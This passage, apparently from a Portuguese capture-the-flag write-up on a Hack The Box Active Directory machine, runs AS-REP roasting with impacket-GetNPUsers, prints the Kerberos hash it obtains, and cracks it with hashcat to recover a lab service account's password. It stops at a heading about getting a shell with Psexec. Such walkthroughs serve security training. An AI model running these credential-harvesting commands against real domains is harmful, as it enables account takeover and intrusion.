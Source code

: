 Agora, temos a lista de usuários do alvo.

Colocaremos a lista num arquivo e tentaremos o Atttack As-Rep Roasting.

- `cat users`
    
    ```powershell
    sebastien
    lucinda
    svc-alfresco
    andy
    mark
    santi
    ```
    
- `for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`
    
    ```powershell
    [*] Getting TGT for sebastien
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for lucinda
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:754aaeb7cf647e5365424893ee7e7345$1f45e994ceeda5dba738917f2d1f1103eadc8aab035b7177f5ebcaa4ace7ab4311966d7a2bebe181f5dc0e51fd24286b24cb2493a1f02c6fc5cfbd050627089ea8517c1cd3256b7b94d42acc4e54a98b4e336dc175f356a34394b843e82701e822f748a8599fc6d641a5cfa3ebdaeb5f04ace7a97a31b2993c0628c766fe7f2e7358fbeeee130b7c55579f6bb9006949a9f4db273fd05f845ab359b7799624297b4be55b4eab01a5d350f012fc49829e01db5b64fad03409ab7f34cf8c19f538ea9868751d2dc3739fa0d4b2b0d991b0c145bde8f925bbdbec205fc7a626b0b8
    
    [*] Getting TGT for andy
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for mark
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
    
    [*] Getting TGT for santi
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
    ```
    

### Quebrando o Hash

`hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force`

Senha do usuário **svc-alfresco** encontrada: **s3rvice**

---

## **Pegando Shell**

### Psexec

